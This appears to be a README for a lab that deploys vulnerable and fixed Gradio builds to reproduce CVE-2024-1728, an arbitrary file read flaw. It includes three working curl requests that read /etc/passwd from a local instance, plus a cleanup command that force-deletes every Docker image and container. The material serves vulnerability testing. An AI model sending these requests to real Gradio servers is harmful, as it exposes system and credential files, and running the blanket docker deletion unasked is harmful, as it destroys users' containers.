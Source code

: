 # Gradio CVE-2024-1728

This directory contains the deployment config for Gradio instances vulnerable and fixed to CVE-2024-1728. Gradio versions below 4.19.2 are vulnerable to that arbitrary file read vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following three curl commands. In a vulnerable environment, after the final curl request, you can see the /etc/passwd file content in the response.
```sh
# Send a file upload request
curl -X POST -H 'Content-Type: application/json' -d '{"data":[[{"path":"/etc/passwd","url":"http://127.0.0.1:7860/file=/help","orig_name":"CHANGELOG.md","size":3549,"mime_type":"text/markdown"}]],"event_data":null,"fn_index":0,"trigger_id":2,"session_hash":"hu6na4f3d08"}' 'http://localhost:8000/queue/join?'

# See the queued operations (Get PATH value from the JSON in the response whose msg key is process_completed, example: /tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd)
curl 'http://localhost:8000/queue/data?session_hash=hu6na4f3d08'

# Read the file content (example: http://localhost:8000/file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd):
curl 'http://localhost:8000/file=PATH'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```sh
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```
docker build -t gradio:fixed -f fixed.Dockerfile .
docker run --name gradio-fixed -p 8000:8000 -d gradio:fixed
```

The deployed service listens on `localhost:8000` after the docker completes its job.

## Vulnerable version
```
docker build -t gradio:vuln -f vulnerable.Dockerfile .
docker run --name gradio-vuln -p 8000:8000 -d gradio:vuln
```

The deployed service listens on `localhost:8000` after the docker completes its job.
